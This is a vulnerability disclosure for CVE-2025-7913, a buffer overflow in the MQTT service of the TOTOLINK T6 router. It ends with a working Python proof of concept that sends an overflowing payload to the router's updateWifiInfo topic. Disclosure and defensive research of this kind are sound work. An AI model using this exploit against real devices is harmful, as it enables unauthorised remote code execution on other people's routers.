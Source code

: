 # [CVE-2025-7913](https://vuldb.com/?id.317028)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability in `MQTT` service that lead to RCE.

# Vulnerability details

The `T6` routers open `MQTT` service and listen on port `1883`. In function `updateWifiInfo`. The `v9` buffer is 128 bytes, and the `sprintf` doesn't check for the length of input.

![](7/1.png)

![](7/2.png)

An attacker can implement a RCE attack by sending a malicious `MQTT` packet.

![](7/3.png)

# POC

```python
import paho.mqtt.client as mqtt

payload = b"A" * 0x7e + b"\x37\x33\x33\x13"

mqtt_data = b'''
    {
        "newMd5":"1",
        "serverIp":"%s"
    }
''' % payload

client = mqtt.Client()
client.connect("192.168.0.1", 1883, 60)
client.publish("totolink/router/updateWifiInfo", mqtt_data)
```




